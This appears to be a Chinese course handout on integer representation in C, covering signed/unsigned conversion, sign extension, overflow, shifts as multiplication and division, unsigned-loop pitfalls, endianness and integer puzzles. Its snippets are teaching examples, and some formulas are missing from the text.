
图 7 补码与无符号数之间的转换（课件 p.26 “Conversion Visualized”）
在 C 中，转换发生在三种场合：常量默认是有符号的，加后缀 U 才是无符号的（如 0U、4294967259U）；显式强制类型转换如 (int) ux、(unsigned) ty，效果等同于 U2T 与 T2U；隐式转换发生在赋值和函数调用时，如 tx = ux;、uy = ty;。printf 的 %d 与 %u 也只是按不同方式解释同一个位模式，例如 printf("%u", -1) 输出 4294967295。
最危险的是表达式求值中的隐式转换：如果一个表达式中同时出现 int 和 unsigned，有符号数会被隐式转换为无符号数再运算，包括比较运算 <、>、==、<=、>=。下面是课件 p.28 的完整例子（）：
表 21 转换的意外（Casting Surprises，课件 p.28；红底为反直觉的情形）
| 常量 1 | 常量 2 | 关系 | 按何种方式比较 | 原因 |
|---|---|---|---|---|
| 0 | 0U | == | 无符号 | 0 转为无符号仍为 0 |
| −1 | 0 | < | 有符号 | 两边都是 int，按数学意义比较 |
| −1 | 0U | > | 无符号 | −1 转为 UMax = 4294967295 |
| 2147483647 | −2147483647−1 | > | 有符号 | TMax > TMin |
| 2147483647U | −2147483647−1 | < | 无符号 | TMin 转为 2147483648U，比 TMax 大 1 |
| −1 | −2 | > | 有符号 | |
| (unsigned) −1 | −2 | > | 无符号 | UMax > UMax − 1（−2 转为 4294967294） |
| 2147483647 | 2147483648U | < | 无符号 | 数值上本来就小 |
| 2147483647 | (int) 2147483648U | > | 有符号 | (int) 2147483648U = TMin |
教材 为什么写成 −2147483647−1 而不是 −2147483648
在 C 中，-2147483648 不是一个常量，而是对常量 2147483648 取负。2147483648 超出了 int 的范围，它的类型会变成 long（C99，64 位机器）或 unsigned（C90，32 位机器），于是整个表达式的类型和比较语义都会改变。为了得到 int 类型的 TMin，<limits.h> 中把 INT_MIN 定义为 (-INT_MAX - 1)。课件表格写成 -2147483647-1 正是这个原因（教材 2.2.6 节旁注）。
常见问题：“混合运算一定转成无符号”吗？
课件的规则是针对 int 与 unsigned int 这一对类型的简化说法。C 的完整规则（通常算术转换）还包括两点，写程序时容易踩坑：
第一点是整数提升，char、short（含无符号版本）先提升为 int 再参与运算。所以 (unsigned short)65535 > -1 为真——65535 先提升为 int，按有符号比较；(short)-1 > 0U 也为真——先提升为 int −1，再与 unsigned 比较转成 UMax。
另一种情况是等级更高的有符号类型可以“胜出”：若有符号类型能容纳无符号类型的全部值，则统一为有符号类型。x86-64 上 long 是 64 位，能容纳所有 unsigned int，所以 1L < -1U 为真：−1U 即 4294967295 被转为 long，按数学意义比较。
以上结果均已在 x86-64 Linux 上用 gcc 实测。
★ 小结：有符号 ↔ 无符号的基本规则（课件 p.29）
位模式保持不变，但被重新解释；
这样的重新解释可能产生意外的效果：数值加上或减去 ；
表达式中同时含有 signed int 和 unsigned int 时，int 被转换为 unsigned。
2.5 扩展与截断（课件 p.31–35）#
扩展：保持数值不变#
把 位整数转换为 位时，目标是数值不变。无符号数在高位补 0 即可（零扩展）。补码数则要把符号位复制 份（符号扩展）：
符号扩展示例（课件 p.32）
| 权重 | −32 | 16 | 8 | 4 | 2 | 1 | |
| 10（5 位） | 0 | 1 | 0 | 1 | 0 | ||
| 10（6 位） | 0 | 0 | 1 | 0 | 1 | 0 | 复制符号位 0 |
| −10（5 位） | 1 | 0 | 1 | 1 | 0 | ||
| −10（6 位） | 1 | 1 | 0 | 1 | 1 | 0 | 复制符号位 1 |
为什么复制符号位能保持数值？只需证明扩展一位时数值不变，再归纳到 位。若原符号位 ，新增的 0 不改变任何东西。若 ：原来最高位贡献 ；扩展后新的最高位贡献 ，原来的符号位变成普通位，贡献 ，两者之和为
与原来相同。以上面的 −10 为例：5 位时符号位贡献 −16；6 位时变为 ，其余位不变，所以仍是 −10。C 语言在从较短的有符号类型转换到较长类型时自动进行符号扩展：
表 22 C 自动进行符号扩展（课件 p.33；粗体为扩展出的位）
| 变量 | 十进制 | 十六进制 | 二进制 |
|---|---|---|---|
short x | 15213 | 3B 6D | 00111011 01101101 |
int ix = (int) x | 15213 | 00 00 3B 6D | 00000000 00000000 00111011 01101101 |
short y | −15213 | C4 93 | 11000100 10010011 |
int iy = (int) y | −15213 | FF FF C4 93 | 11111111 11111111 11000100 10010011 |
⚠ 转换顺序：先改大小，再改有无符号（教材 2.2.6 节）
short sx = -12345; unsigned uy = sx; 中，C 先把 short 扩展为 int（符号扩展），再把 int 转为 unsigned，即 (unsigned)(int) sx。结果是 0xFFFFCFC7 = 4294954951，而不是零扩展得到的 0x0000CFC7 = 53191。已实测验证。
截断：可能改变数值#
把 位数截断为 位时，直接丢弃高 位，然后按新的类型重新解释剩下的位。对无符号数，丢弃高位相当于对 取模；对补码数，则先把位模式当作无符号数取模，再把结果的最高位当作新的符号位：
★ 截断公式（教材式 2.9、2.10）
课件 p.34 用 5 位截断为 4 位的四个例子说明：截断后新的最高位（原来的 ，权重 +8）变成了符号位（权重 −8）。若被丢弃的位与新符号位都和原符号位一致，数值不变；否则数值改变，甚至符号改变。
5 位截断为 4 位（灰色为丢弃的位，红色为新的符号位）
| 权重（5 位） | −16 | 8 | 4 | 2 | 1 | |
| 10 | 0 | 1 | 0 | 1 | 0 | → 1010 = −8+2 = −6，符号改变 |
| −10 | 1 | 0 | 1 | 1 | 0 | → 0110 = 6，符号改变 |
| 2 | 0 | 0 | 0 | 1 | 0 | → 0010 = 2，不变 |
| −6 | 1 | 1 | 0 | 1 | 0 | → 1010 = −6，不变 |
| 权重（4 位） | −8 | 4 | 2 | 1 |
用取模的观点验证：，作为 4 位补码就是 ；，即 6；，作为 4 位补码是 −6。判断截断是否保值有一个简便方法：把截断结果再符号扩展回原宽度，若能恢复原位模式，则截断没有改变数值。
表 23 扩展与截断的基本规则（课件 p.35）
| 操作 | 无符号数 | 补码有符号数 | 数值是否改变 |
|---|---|---|---|
| 扩展（如 short → int） | 零扩展：高位补 0 | 符号扩展：高位复制符号位 | 不变 |
| 截断（如 int → short） | 丢弃高位，结果 = 原值 mod | 丢弃高位，结果 = (原值 mod ) | 原值超出目标范围时改变 |
常见问题：截断与右移不是一回事
截断丢弃的是高位，右移移走的是低位。另外，上面是位级模型；在 C 语言里，把超范围的值转换为有符号窄类型（如 (short)53191）属于实现定义行为，gcc 按模运算处理，得到 −12345。不要把它与“有符号算术溢出是未定义行为”混淆。
2.6 加法与取负（课件 p.37–44）#
无符号加法 UAdd#
两个 位无符号数相加，真实的和可能需要 位。C 的标准加法忽略最高位的进位，只保留低 位，因此实现的是模 的加法：
unsigned char 加法示例（课件 p.37–38）
| u = 0xE9 | 1 | 1 | 1 | 0 | 1 | 0 | 0 | 1 | ||
| v = 0xD5 | 1 | 1 | 0 | 1 | 0 | 1 | 0 | 1 | ||
| 真实和 0x1BE | 1 | 1 | 0 | 1 | 1 | 1 | 1 | 1 | 0 | 233 + 213 = 446 |
| UAdd 结果 0xBE | 1 | 0 | 1 | 1 | 1 | 1 | 1 | 0 | 446 − 256 = 190 |
从图像上看（课件 p.39–40 画的是三维曲面图，图 8把 4 位情形的全部 256 个结果列成了表格），数学上的加法是一个平面，而无符号加法在真实和超过 时“折回”，并且最多折回一次（因为两个 位数之和小于 ）。检测无符号加法溢出的方法很简单： 溢出当且仅当 （等价地 ）。因为溢出时 （），不溢出时 。

图 8 4 位加法的全部结果：左为无符号加法 UAdd₄，右为补码加法 TAdd₄（课件 p.39–44 曲面图的表格版）
补码加法 TAdd#
补码加法和无符号加法在位级上完全相同：都是普通加法后截断。课件 p.41 用代码说明了这一点：s = (int)((unsigned)u + (unsigned)v); 与 t = u + v; 得到的 s 与 t 总是相等。同一个例子 0xE9 + 0xD5 = 0xBE，按有符号解释就是 ，结果正确，没有溢出。
只是把截断后的 位按补码解释时，会出现两种溢出：真实和 时正溢出（PosOver），结果减去 变成负数；真实和 时负溢出（NegOver），结果加上 变成正数。
图 8右边的表格就是课件 p.42 曲面图的“俯视版”：绿色区域是 −8 ≤ u + v ≤ 7 的正常情况；右下角橙色的三角形是正溢出，真实和减去 16（例如 5 + 4 = 9 得到 −7）；左上角蓝色的三角形是负溢出，真实和加上 16（例如 −8 + −1 = −9 得到 7）。左边的无符号加法只有一个“折回”区域：u + v ≥ 16 时减去 16。对比两张表可以看到，同一对位模式的结果位完全相同，只是解释不同，这正是“补码加法与无符号加法在位级上完全相同”。
★ 补码加法公式（教材式 2.13）
等价写法：。

图 9 补码加法的溢出：真实和落在四个区间之一（课件 p.42、p.44）
表 24 两种加法对比（课件 p.51）
| 无符号加法 UAdd | 补码加法 TAdd | |
|---|---|---|
| 位级操作 | 普通加法，丢弃第 位进位 | 与 UAdd 完全相同 |
| 数学意义 | ||
| 溢出时的修正 | 减 （最多一次） | 正溢出减 ，负溢出加 （最多一次） |
| 溢出的检测 | 为正溢出； 为负溢出 | |
| 异号相加 | — | 一定不会溢出 |
⚠ C 语言层面：有符号溢出是未定义行为
在机器层面，补码溢出总是按上面的规则回绕。但在 C 标准中，有符号整数运算溢出是未定义行为，编译器可以假设它不会发生并据此优化，例如把 x + 1 > x 直接优化为真。因此 INT_MAX + 1 不保证得到 INT_MIN。无符号运算则由标准保证按模 回绕。检测有符号溢出应该在运算前判断，或在无符号类型中运算后再判断。
取负#
先看无符号取负，求 的加法逆元，即满足 的 。补码取负同理，但要注意 TMin 的特殊性：它的相反数 超出了范围，回绕后仍是 TMin。在位级上两者都可以用 ~x + 1 计算。
2.7 乘法（课件 p.45–48）#
两个 位数的真实乘积可能需要 位。无符号数的乘积范围是 ；补码最小（最负）的乘积是 ，需要 位；最大的乘积是 ，只有 才需要完整的 位。要保持精确结果，字长就得随着每次乘法不断增长，这只能由软件（任意精度算术包，如 Python 的 int）实现。C 的乘法同样丢弃高 位：
★ 乘法公式（教材式 2.16、2.17）
低 位相同。无符号乘法与补码乘法的完整乘积高位可能不同，但被保留的低 位总是相同。原因是 T2U 只会给操作数加上 的倍数，而 。
表 25 unsigned char / signed char 乘法示例（课件 p.46–47）：高 8 位不同，低 8 位相同
| 无符号解释 | 补码解释 | |
|---|---|---|
| 操作数 | 0xE9 = 233，0xD5 = 213 | 0xE9 = −23，0xD5 = −43 |
| 真实乘积 | 233 × 213 = 49629 = 0xC1DD | (−23) × (−43) = 989 = 0x03DD |
| 保留低 8 位 | 0xDD = 221 | 0xDD = −35 |
用移位代替乘以常数#
对无符号数和补码数，u << k 都等于 （同样是模 的结果，溢出时与乘法结果一致）。由此可以把乘以常数分解为若干移位和加减：设常数 K 的二进制表示中有一段连续的 1，从第 n 位到第 m 位（），这一段对乘积的贡献可以写成两种形式：
例如 ，n = 3，m = 1，形式 A 为 (x<<3)+(x<<2)+(x<<1)，形式 B 为 (x<<4)-(x<<1)。课件中的 ，形式 B 就是 (u<<5)-(u<<3)。多数机器上移位和加法比乘法快（如 x86-64 上整数乘法延迟约 3 个周期，移位、加法、lea 约 1 个周期），编译器会自动进行这种变换。下表是 gcc 13 在 -O2 下对 int 乘法生成的实际代码：
表 26 编译器对常数乘法的选择（已实测）
| C 表达式 | gcc -O2 生成的 x86-64 代码 | 说明 |
|---|---|---|
x * 3 | leal (%rdi,%rdi,2), %eax | 用地址计算指令算 x + 2x |
x * 8 | leal 0(,%rdi,8), %eax | 相当于 x << 3 |
x * 24 | leal (%rdi,%rdi,2), %eax；sall $3, %eax | (3x) << 3 |
x * 17 | movl %edi, %eax；sall $4, %eax；addl %edi, %eax | (x << 4) + x |
x * 1234567 | imull $1234567, %edi, %eax | 1 太多，拆开反而更慢，直接乘 |
x * y | movl %edi, %eax；imull %esi, %eax | 乘数不是编译时常数，无法用移位 |
★ Important Lesson: Trust Your Compiler!
编译器会根据目标机器上各指令的代价自动选择最好的实现。程序员应写出清晰的 x * 24，而不是手写难读的移位组合；但需要理解编译器生成的代码，读懂汇编时才不会困惑。
2.8 除以 2 的幂（课件 p.49；教材 2.3.7 节）#
整数除法比乘法更慢（通常 30 个周期以上），因此除以 也常用右移实现。无符号数使用逻辑右移，结果恰好是向下取整的商：。移出的低 k 位就是被舍去的小数部分（课件 p.48–49 的例子见表 27）。
表 27 无符号右移 k 位等于除以 2 的 k 次幂再向下取整（课件 p.48–49 的例子，u = 15213）
| 表达式 | 真实商 u / 2k | 计算结果 | 十六进制 | 二进制 |
|---|---|---|---|---|
u | 15213 | 15213 | 3B 6D | 00111011 01101101 |
u >> 1 | 7606.5 | 7606 | 1D B6 | 00011101 10110110 |
u >> 4 | 950.8125 | 950 | 03 B6 | 00000011 10110110 |
u >> 8 | 59.42578125 | 59 | 00 3B | 00000000 00111011 |
有符号数使用算术右移，结果同样是 ，即向下取整（向 −∞ 舍入）。对非负数这没有问题；但 C 语言规定整数除法向零取整，对不能整除的负数两者相差 1。例如 ，C 要求结果为 −1，而 -7 >> 2 得到 −2。解决办法是在移位前加上一个偏置（bias），利用 ：
★ 有符号数除以 2 的幂（教材式 2.19）
(x < 0 ? x + (1 << k) - 1 : x) >> k /* 向零取整的 x / 2^k */
(x + ((x >> 31) & ((1 << k) - 1))) >> k /* 不用条件判断的写法（int 为 32 位） */
表 28 有符号除法的舍入（教材图 2.29、2.30 的数据）
| x | k | 真实商 | x >> k（向下取整） | 加偏置后（向零取整） | C 中 x / 2^k |
|---|---|---|---|---|---|
| −7 | 2 | −1.75 | −2 | (−7 + 3) >> 2 = −1 | −1 |
| −12340 | 1 | −6170 | −6170 | −6170 | −6170 |
| −12340 | 4 | −771.25 | −772 | −771 | −771 |
| −12340 | 8 | −48.203… | −49 | −48 | −48 |
gcc 对 x / 4 生成的代码正是这个思路：testl %edi,%edi；leal 3(%rdi),%eax（算 x+3）；cmovns %edi,%eax（若 x 非负则改用 x）；sarl $2,%eax（算术右移 2 位）。可惜这个技巧不能推广到除以任意常数；除以非 2 的幂常数时，编译器会改用“乘以一个特殊常数再取高位”的方法。
2.9 什么时候该用无符号数（课件 p.51–54）#
课件给出的忠告是：不理解后果就不要使用无符号数，很容易犯错。课件 p.52 给出了第一个经典错误。
unsigned i;
for (i = cnt-2; i >= 0; i--) /* i >= 0 对无符号数恒为真 ---- 死循环 */
a[i] += a[i+1]; /* i 从 0 再减 1 变成 UMax，访问越界 */第二个错误更隐蔽，DELTA 定义为 sizeof(int)，类型是无符号的 size_t，于是 i - DELTA 整个表达式按无符号计算，i - DELTA >= 0 同样恒为真。
#define DELTA sizeof(int)
int i;
for (i = CNT; i - DELTA >= 0; i -= DELTA) /* 按无符号计算，恒为真 */
. . .如果确实要用无符号数做递减循环，正确的写法利用了“C 标准保证无符号加法是模运算，”：
size_t i; /* size_t：无符号，长度等于字长 */
for (i = cnt-2; i < cnt; i--) /* i 从 0 减到 UMax 时，i < cnt 为假，循环结束 */
a[i] += a[i+1];用 size_t 比 unsigned 更好：即使 cnt 等于 UMax（数组极大）代码也能正常工作。课件最后问：如果 cnt 是有符号数且小于 0 会怎样？此时 i < cnt 中 cnt 被转换为无符号数，变成一个极大的值，例如 cnt = −1 时 i 的初值是 ，i < cnt 即 为真，循环会以巨大的下标访问数组，程序崩溃。所以使用这种写法前必须保证 cnt 非负。
表 29 Do Use 无符号数的场合（课件 p.54）
| 适合使用无符号数的场合 | 原因 |
|---|---|
| 需要模运算时 | 如多精度（大整数）算术，标准保证无符号运算按模 回绕 |
| 用位表示集合、标志、掩码时 | 需要逻辑右移，不希望出现符号扩展 |
| 表示地址、大小、硬件寄存器字段、协议字段 | 这些量本来就是位模式或非负量，如 size_t、uintptr_t |
常见问题：无符号数的六个常见陷阱
100U - 120U 得到 4294967276 而不是 −20，结果再与 0 比较无法发现“负数”。应先比较 100 与 120。
-1 < 10U 为假。
无符号循环条件 i >= 0 恒成立。
空容器的 v.size() - 1 回绕成最大值。
long long d = a - b; 若 a、b 是 unsigned int，减法先按 32 位回绕再扩展；应在运算前转换类型。
无符号形参不会自动拒绝 −1，调用时 −1 会变成最大无符号数。
unsigned 不是“经过非负检查的整数”，而是具有模运算语义的类型。
2.10 数据在内存中的表示（课件 p.56–67）#
面向字节的内存组织#
程序通过地址引用数据。概念上可以把内存看作一个非常大的字节数组，地址就是数组下标，指针变量存放的就是地址。实际的实现远比这复杂（由 DRAM、闪存、磁盘、高速缓存和虚拟内存共同构成），但可以这样理解。系统为每个进程（可以理解为正在执行的程序）提供私有的地址空间，所以程序可以破坏自己的数据，但不能破坏其他进程的数据。
多字节的对象被存储为连续的字节序列，对象的地址是它所使用字节中最小的地址。一个字的地址就是它第一个字节的地址，相邻的字地址相差 4（32 位）或 8（64 位）：
表 30 面向字的内存组织（课件 p.58，地址用十六进制）
| 字节地址 | 0000–0003 | 0004–0007 | 0008–000B | 000C–000F |
|---|---|---|---|---|
| 32 位字的地址 | 0000 | 0004 | 0008 | 000C |
| 64 位字的地址 | 0000 | （同一个字） | 0008 | （同一个字） |
字节序：大端与小端#
多字节对象的各个字节在内存中按什么顺序排列？有两种约定。大端法（big endian）：最高有效字节放在最低地址，代表有 Sun SPARC、PowerPC Mac 以及网络传输。小端法（little endian）：最低有效字节放在最低地址，代表有 x86、x86-64，以及运行 Android、iOS、Windows 的 ARM 处理器。
表 31 int x = 0x01234567，&x = 0x100（课件 p.61；同色为同一字节）
| 地址 | 0x100 | 0x101 | 0x102 | 0x103 |
|---|---|---|---|---|
| 大端法 | 01 | 23 | 45 | 67 |
| 小端法 | 67 | 45 | 23 | 01 |
字节序只影响字节之间的顺序，不影响一个字节内部的位顺序，也与有符号/无符号无关；按正确的字节序读回，两种机器都得到原值。下表是课件 p.62 中同一个数在不同机器上的字节排列（按地址递增列出）：
表 32 整数在不同机器上的表示（课件 p.62）
| 声明 | IA32 / x86-64（小端） | Sun（大端） | 说明 |
|---|---|---|---|
int A = 15213; | 6D 3B 00 00 | 00 00 3B 6D | 15213 = 0x00003B6D |
int B = -15213; | 93 C4 FF FF | FF FF C4 93 | 补码 0xFFFFC493 |
long C = 15213; | IA32：6D 3B 00 00x86-64： 6D 3B 00 00 00 00 00 00 | 00 00 3B 6D | long 在 x86-64 上 8 字节 |
typedef unsigned char *pointer;
void show_bytes(pointer start, size_t len) {
size_t i;
for (i = 0; i < len; i++)
printf("%p\t0x%.2x\n", start + i, start[i]); /* %p 打印指针，%x 十六进制 */
printf("\n");
}
int a = 15213;
show_bytes((pointer) &a, sizeof(int));
/* Linux x86-64 上的输出：
0x7fffb7f71dbc 6d
0x7fffb7f71dbd 3b
0x7fffb7f71dbe 00
0x7fffb7f71dbf 00 */课件 p.64–65 和表 33 给出了指针的表示。int *P = &B; 中 P 的值是 B 的地址。不同编译器和机器会把对象放在不同位置，现代系统还会进行地址空间随机化，甚至每次运行结果都不同；x86-64 上指针占 8 字节，而且用户空间地址的高 2 字节通常为 0。
表 33 int B = -15213; int *P = &B; 时 P 本身的字节（课件 p.64 的示例值，按地址递增列出）
| 机器 | 指针大小与字节序 | P 的各字节 | 读出的地址值 |
|---|---|---|---|
| Sun | 4 字节，大端 | EF FF FB 2C | 0xEFFFFB2C |
| IA32 | 4 字节，小端 | AC 28 F5 FF | 0xFFF528AC |
| x86-64 | 8 字节，小端 | 3C 1B FE 82 FD 7F 00 00 | 0x00007FFD82FE1B3C |
表中的地址只是某一次运行的示例：不同机器、不同编译器、甚至同一程序的两次运行，变量放的位置都可能不同，所以三台机器的值彼此没有关系。可以读出的规律是指针的大小和字节序：x86-64 一行按小端逆序读出得到 0x00007FFD82FE1B3C，高 2 字节为 0，是典型的用户空间栈地址。
课件 p.66 还介绍了字符串。C 字符串是以空字符（值为 0）结尾的字符数组，每个字符用 ASCII 编码，数字字符 i 的编码是 0x30 + i（终端运行 man ascii 可查表）。char S[6] = "18213"; 在任何机器上都存为 31 38 32 31 33 00。由于每个字符只占一个字节，字符串不存在字节序问题，文本数据因此具有很好的跨平台兼容性。
阅读反汇编中的字节序#
反汇编器把机器码翻译成文本形式的汇编代码。小端机器上，指令中的多字节立即数以“反序”出现。课件 p.67 的例子：
地址 指令字节 汇编
8048365: 5b pop %ebx
8048366: 81 c3 ab 12 00 00 add $0x12ab,%ebx
804836c: 83 bb 28 00 00 00 00 cmpl $0x0,0x28(%ebx)| 步骤 | 值 0x12ab |
|---|---|
| 补齐到 32 位 | 0x000012ab |
| 分成字节 | 00 00 12 ab |
| 反转（小端存储） | ab 12 00 00，正是第二条指令末尾的 4 个字节 |
常见问题：现在主流用哪种字节序？
主流桌面与移动平台以小端为主：x86/x86-64、Intel Mac 和 Apple silicon 都是小端；ARM 架构支持两种字节序，由平台约定（实际几乎都运行在小端模式）。IP 等网络协议头中的多字节字段采用大端，称为网络字节序。两种字节序各有便利，不能断言某一种必然更快。
2.11 整数 C 谜题（Integer C Puzzles，课件 p.69）#
假设 int 为 32 位补码、有符号数右移为算术右移，并有初始化 int x = foo(); int y = bar(); unsigned ux = x; unsigned uy = y;。判断下列命题是否对所有 x、y 成立；不成立时给出反例。这里按机器层面的位运算模型分析（即有符号溢出按回绕处理）。
表 34 Integer C Puzzles 答案（已对边界值穷举验证）
| 命题 | 结论 | 理由 / 反例 |
|---|---|---|
x < 0 ⇒ ((x*2) < 0) | ✗ 不总成立 | x = TMin：x*2 溢出为 0；x = −2³⁰−1 时 x*2 = 2³¹−2 > 0 |
ux >= 0 | ✓ 总成立 | 无符号数总是非负 |
(x & 7) == 7 ⇒ (x<<30) < 0 | ✓ 总成立 | 低 3 位全 1，第 1 位为 1，左移 30 位后它成为符号位 |
ux > -1 | ✗ 不总成立 | −1 转为 UMax，没有无符号数大于 UMax，命题恒为假 |
x > y ⇒ -x < -y | ✗ 不总成立 | y = TMin：−y 仍为 TMin。如 x = 0，y = TMin，则 −x = 0 不小于 TMin |
x * x >= 0 | ✗ 不总成立 | x = 65535：x*x = 0xFFFE0001 = −131071；x = 50000 亦可 |
x > 0 && y > 0 ⇒ x + y > 0 | ✗ 不总成立 | x = 1，y = TMax：正溢出得 TMin |
x >= 0 ⇒ -x <= 0 | ✓ 总成立 | 非负数的相反数总能表示（0 ≤ x ≤ TMax ⇒ −TMax ≤ −x ≤ 0） |
x <= 0 ⇒ -x >= 0 | ✗ 不总成立 | x = TMin：−TMin = TMin < 0 |
(x|-x) >> 31 == -1 | ✗ 不总成立 | x = 0 时为 0；只要 x ≠ 0（包括 TMin），x 与 −x 至少一个为负，结果为 −1 |
ux >> 3 == ux/8 | ✓ 总成立 | 无符号逻辑右移就是向下取整的除法 |
x >> 3 == x/8 | ✗ 不总成立 | 负数不能整除时不同：x = −1，−1>>3 = −1，而 −1/8 = 0 |
(x & (x-1)) != 0 | ✗ 不总成立 | x = 0 或 x 为 2 的幂时为 0，如 x = 1、2、TMin |
⚠ 运算符优先级陷阱
课件原式写作 x & 7 == 7 与 x & (x-1) != 0。在真正的 C 代码中，== 和 != 的优先级高于 &，所以 x & 7 == 7 会被解析为 x & (7 == 7) 即 x & 1，x & (x-1) != 0 会被解析为 x & ((x-1) != 0)。上表按出题意图加了括号。写位运算表达式时请务必加括号；gcc 的 -Wall 会对此给出警告。
另外，x<<30 把 1 移入 int 的符号位，严格说在 C 标准中属于未定义行为，上表按位级结果分析。
第三部分 小班研讨题解答（第 2 讲）#
题目来自《ICS 小班研讨题和作业题（第 2 讲）》，默认前提为 x86 体系结构、Linux 操作系统、C 语言。题目要求“设计”的例子均为本讲义新设计的数，没有使用课件上现成的数；所有数值结果都已用 C 程序或 Python 验证。
研讨题 1：关于“位”（bit）和字节（byte）#
1（1）计算机内部选用了二进制表达形式，那为什么要用十六进制？在什么场合使用？和十进制相比有什么优缺点？
二进制是机器的“母语”，但对人来说太长、太容易看错：一个 32 位地址要写 32 个 0/1，数错一位就是完全不同的值。十六进制的根本优势在于 ，每个十六进制数字恰好对应 4 位，一个字节恰好对应 2 个十六进制数字。因此二者之间的转换是“局部”的：每 4 位独立转换，不需要任何进位或除法，而且字节边界一目了然。十进制做不到这一点，因为 10 不是 2 的幂，十进制的每一位都牵涉到整个位模式。
| 使用场合 | 例子 |
|---|---|
| 内存地址、指针 | gdb 中的 0x7fffffffe3a0；printf("%p") 的输出 |
| 内存与文件的逐字节查看 | show_bytes 的输出；xxd、hexdump；gdb 的 x/8xb 命令 |
| 机器码与反汇编 | objdump -d 中的 48 89 e5；Bomb Lab 中阅读指令编码 |
| C 程序中的位掩码与常量 | x & 0xFF、0x80000000、Data Lab 中的各种掩码 |
| 其他编码 | 网页颜色 #1F3864、MAC 地址、UUID、哈希值、Unicode 码点 U+5B8B |
表 35 十六进制与十进制的比较
| 十六进制 | 十进制 | |
|---|---|---|
| 与位模式的对应 | ✓ 直接、局部，每 4 位一组 | ✗ 需要反复除以 2，难以看出各位 |
| 看出字节边界、对齐 | ✓ 每 2 位数字是一个字节；末位为 0 表示 16 字节对齐 | ✗ 看不出 |
| 书写长度 | 较短（32 位只要 8 个数字） | 相近（32 位最多 10 个数字） |
| 直观感受数值大小 | ✗ 不直观（0x3B6D 是多少？） | ✓ 符合日常习惯 |
| 手工算术 | ✗ 不熟悉（需要记住 A–F 的含义与进位） | ✓ 熟练 |
由此可以得出结论。关心“位”的时候用十六进制，关心“数值”的时候用十进制。另外，八进制（每位对应 3 位）在 Unix 文件权限 chmod 755 中仍有使用，因为权限恰好按 3 位一组划分。
1（2）参照课件第 4 页，设计几个 8 位的二进制数，手工转换成十进制和十六进制，按步骤展示过程，体现转换的速度差异。注意要多用到十六进制中字母的表示。
设计四个 8 位二进制数：10101111、11011010、00111110、11101100，它们的十六进制表示中都含字母。转十六进制只需“切成两半、查表”；转十进制则要把每个 1 的权重找出来再相加。
表 36 8 位二进制数的手工转换
| 二进制 | → 十六进制（分组查表） | → 十进制（按权相加） | 核对 |
|---|---|---|---|
| 1010 1111 | 1010 = A，1111 = F → 0xAF | 128 + 32 + 8 + 4 + 2 + 1 = 175 | |
| 1101 1010 | 1101 = D，1010 = A → 0xDA | 128 + 64 + 16 + 8 + 2 = 218 | |
| 0011 1110 | 0011 = 3，1110 = E → 0x3E | 32 + 16 + 8 + 4 + 2 = 62 | |
| 1110 1100 | 1110 = E，1100 = C → 0xEC | 128 + 64 + 32 + 8 + 4 = 236 |
